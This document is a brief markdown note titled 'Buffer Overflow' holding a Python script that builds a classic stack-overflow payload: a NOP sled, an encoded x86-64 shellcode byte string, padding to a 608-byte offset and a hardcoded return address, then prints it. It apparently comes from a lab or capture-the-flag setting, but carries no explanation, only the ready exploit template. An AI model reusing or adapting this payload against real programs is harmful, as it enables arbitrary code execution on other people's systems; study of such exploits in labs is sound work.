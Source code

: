 # Buffer Overflow 

## Base python script

´
from struct import pack

nop = '\x90'

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\x7e\xe4\x73\xe1\x46\x73\xf8"
buf += b"\xde\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\x14\xcd\x2b\x78\x2c\x71\xa7\xb4\x7f\xba\x7c\xe4\x0e"
buf += b"\xe4\xb0\x67\x7c\xe4\x50\xc8\x4c\x7b\x07\x2a\x2f\xac"
buf += b"\xfa\x07\x2c\x63\xa2\xb4\x54\xbc\x7c\xe4\x2c\x70\xa6"
buf += b"\x96\x81\x2a\x19\xc0\x1e\x7c\xfd\xab\x88\x8e\x48\xb9"
buf += b"\xdf\x3b\x43\xf1\x1c\x8d\x1d\xce\x35\x1b\xf8\x8d\x36"
buf += b"\x6d\x94\xb3\x11\x3b\x71\x38\x71\xe1\x73\xe1\x46\x73"
buf += b"\xf8\xde"

offset = 608
jumpadd = 0x7fffffffe2fc
len_payload = offset + 8
nop_payload = 300* nop
len_shell = len(buf)
len_nop = len(nop_payload)
padding = 'A' * (len_payload - len_shell - len_nop)
payload = nop_payload + buf + padding + pack("<Q", jumpadd)

print(payload)
´

